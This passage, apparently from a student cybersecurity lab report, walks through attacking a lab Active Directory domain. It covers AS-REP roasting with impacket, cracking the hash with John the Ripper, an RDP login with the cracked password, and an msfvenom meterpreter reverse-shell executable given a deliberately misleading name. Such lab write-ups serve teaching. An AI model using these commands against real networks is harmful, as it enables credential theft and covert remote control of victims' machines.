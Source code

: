 	For doing so, we firstly ask the DC to generate a **TGT** for each of the previous accounts and we format the responses so they are ready to be cracked using *John the Ripper*:

    `impacket-GetNPUsers -dc-ip 10.0.2.200 cybersec.units.it/DomainUser:User00! -request -format john`

	From the output, we copy the string referring to `DNSoperator` in a **text file** called `usernames.txt` and located on the desktop.
	
	   `$krb5asrep$DNSoperator@CYBERSEC.UNITS.IT:8690a5aa5b288a036a49126539f292ef$afe3e87aafc
	    35690745c5dfeb1f459dcc1ed858f1f4755d3aefa12921c93dbc35b35c0fd6094be7390eab67e0c016f96
	    efad6f7ed8343a734e0f401c91ec09a83d11542d377f0d1daf690d7205a3b5d8316a2d1afdd0a6ac4b3e9
	    2fb4d6d295a60b074e549aa6a7c0e24cccfd7dd96cfdb06f908d38de6cb775f4fa44b5eae69bc2452fdfb
	    bfa6ca73a70233a2f64e778d3bd286047a69ddf6fd99379b264f747034c32c66971240bede9becb6150fc
	    85d516545f661aef05c22fc5c26a210a4243627cf681ea61f45996fb8d235b3f9d972433c390ff3b4250f
	    576c96c54d167a61a76717831eb320b84aa37acef60cd3f1c781bf6e` 
	
	
 	Now, we try to crack the hash using **John the Ripper**, providing a password dictionary called `rockyou`.
	
    `john --wordlist=/usr/share/wordlists/rockyou.txt --format=krb5asrep ./Desktop/usernames.txt`

	"Fortunately", the password is in the dictionary, so *john* finds it immediately.
	
	![Result of the offline guessing with John the Ripper](https://github.com/AM311/Cybersecurity_Report/blob/main/img/asRepRoasting.png?raw=true)

	 We are now able to legitimately login to `SERVERDNS`, so we will try to perform some "useful" actions!
 
 5. **Open a remote connection to `SERVERDNS`:**
		
  	To open a remote desktop connection, we use the following command:

    `rdesktop 10.0.2.250 -u DNSoperator -p Qwerty123 -d cybersec.units.it -r disk:share=~/Desktop/share`

	where the option `-r disk:share=~/Desktop/share` allows to share the folder `share` between the Kali machine and the remote server, so we are able to easily move documents between the two devices.
 
 6. **Generate a payload for starting a reverse shell and inject it:**
	In a *different* shell window, we now proceed generating an **exploit** whose payload is a `meterpreter` reverse shell client, running the following command:

    `msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp  LHOST=10.0.2.15 -b "\x00" -f exe -o ./Desktop/WorkshiftsManager.exe`

	 `msfvenom` is a payload generator and encoder, through which we build a `.exe` file (the actual exploit), executable on all Windows devices. Its payload will spawn a reverse shell client, which will connect to the reverse shell server listening on the Kali machine (`10.0.2.15`) on the default TCP port (`4444`).

	The output that we get is the file `WorkShiftsManager.exe`: its name is deliberately misleading, since we want not to raise any suspicion.
	